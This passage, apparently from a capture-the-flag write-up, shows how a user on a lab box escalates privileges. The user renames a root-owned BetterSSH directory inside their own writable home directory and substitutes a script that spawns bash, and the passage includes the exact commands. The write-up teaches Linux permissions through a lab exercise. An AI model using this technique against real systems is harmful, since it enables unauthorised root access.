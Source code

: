 When I originally posted this writeup, [jkr](https://twitter.com/ATeamJKR) replied:

> Four ways to root and yet there is a fifth one: Move the BetterSSH folder out of the way and create your own BetterSSH directory with a proper script 🤪
>
> — jkr (@ATeamJKR) [May 9, 2020](https://twitter.com/ATeamJKR/status/1259143066868420609?ref_src=twsrc%5Etfw)

I took a quick look, and it’s a good lesson on Linux permissions.

There are two sets of permissions that matter here. The home directory of robert, `/home/robert`, and the permissions on the directory `BetterSSH` in that directory:

```

robert@obscure:/home$ ls -ld robert/
drwxr-xr-x 8 robert robert 4096 May  9 18:47 robert/

robert@obscure:~$ ls -ld BetterSSH
drwxrwxr-x 2 robert robert 4096 May  9 18:47 BetterSSH

```

To delete a directory, I have to either empty it and run `rmdir`, or run `rm -rf` on it. Both of these require my getting access to the files in the directory, which I do no have (they are owned by root). However, to rename directory A within directory B, all that matters is the permissions of the directory B, specifically that I have write (`w`) permissions (and enter permissions (`x`)). But in this case, as robert, I have `rwx`.

In practice, if I try to remove the directory, it fails:

```

robert@obscure:~$ rm -rf BetterSSH/
rm: cannot remove 'BetterSSH/BetterSSH.py': Permission denied

```

If I just move it, it works fine:

```

robert@obscure:~$ mv BetterSSH{,-old}
robert@obscure:~$ ls
BetterSSH-old  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py  user.txt

```

I used one of my favorite command line shortcuts, where `BetterSSH{,-old}` is the same as `BetterSSH BetterSSH-old`.

Now I can create a new `BetterSSH` directory, and put my own `BetterSSH.py` script into it:

```

robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")'
#!/usr/bin/env python3

import pty

pty.spawn("bash")
robert@obscure:~$ echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")' > BetterSSH/BetterSSH.py 

```

